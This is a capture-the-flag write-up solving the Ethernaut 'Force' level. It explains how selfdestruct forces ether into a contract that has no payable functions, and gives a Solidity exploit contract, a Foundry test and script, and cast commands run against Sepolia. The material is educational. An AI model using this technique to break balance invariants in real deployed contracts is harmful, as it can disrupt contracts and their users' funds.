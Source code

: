 ## 👾 07. Force

<br>


### tl; dr

<br>


* this challenge exploits smart contract invariants, and how total balance is not a good invariant.
  - contract invariants are properties of the program state that are expected always to be true. for instance, the value of `owner` state variable, the total token supply, etc., should always remain the same.
  - a state in the blockchain is considered valid when the contract-specific invariants hold true.

<br>

* in this challenge, we need to find a way to forcely send `ether` to a contract that does not explicitly contain a `payable`, a `receive()`, or a `fallback()` function.

<br>



* there are two ways this can be done when the destination contract is already deployed:
   - by using `coinbase` transactions or block rewards (like MEV searchers and validators rewards)
  - by leveraging (**[the now being deprecated](https://ethereum-magicians.org/t/deprecate-selfdestruct/11907)**) `selfdestruct(address)`, which allows contracts to receive `ether` from other contracts. 
    - all the `ether` stored in the calling contract is transferred to `address` (and since this happens at the EVM level, there is no way for the receiver to prevent it). 
    - `selfdestruct()` can be considered a garbage collection to clean up voided contracts (and it consumes negative gas).

<br>


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/06c0c5bb-8c1f-49a4-a2a1-561d5f1fa74b">
</p>




<br>

```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```


<br>

---

### discussion

<br>

* `Force` contract has no code and its ABI is empty, so we need to figure out how we can send `ether` to it.

<br>

* as mentioned above, we can use `selfdestruct(address)`, a function used to delete a contract from the blockchain by removing its code and storage.

<br>



----

### solution

<br>

* we craft a very simple exploit, located at `src/07/ForceExploit.sol`:

<br>

```solidity
contract ForceExploit {
    
    constructor(address payable instance) payable {
        selfdestruct(instance);
    }
}
```

<br>

* and test it with `test/07/Force.t.sol`:

<br>

```solidity
contract ForceTest is Test {

    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
    
        vm.prank(instance);
        vm.deal(hacker, 1 ether);
    }

    function testForceHack() public {

        vm.startPrank(hacker);
        assert(instance.balance == 0);
        ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);
        assert(instance.balance != 0);
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ForceTest -vvvv    
```



<br>

* then, we submit the solution with `script/07/Force.s.sol`:

<br>

```solidity
contract Exploit is Script {

    ForceExploit exploit;
    address payable instance = payable(vm.envAddress("INSTANCE_LEVEL7"));     
    address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY")); 
    uint256 immutable initialDeposit = 0.0005 ether;  
        
    function run() external {
        vm.startBroadcast(hacker);
        exploit = new ForceExploit{value: initialDeposit}(instance);
        vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/07/Force.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---

### alternative solution using `cast`

<br>

* deploy the exploit with:

<br>

```shell
> forge create src/07/ForceExploit.sol:ForceExploit --constructor-args=<level address> --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

* then call the contract with:

<br>

```shell
> cast send <deployed address> --value 0.0005ether --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

----

### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>


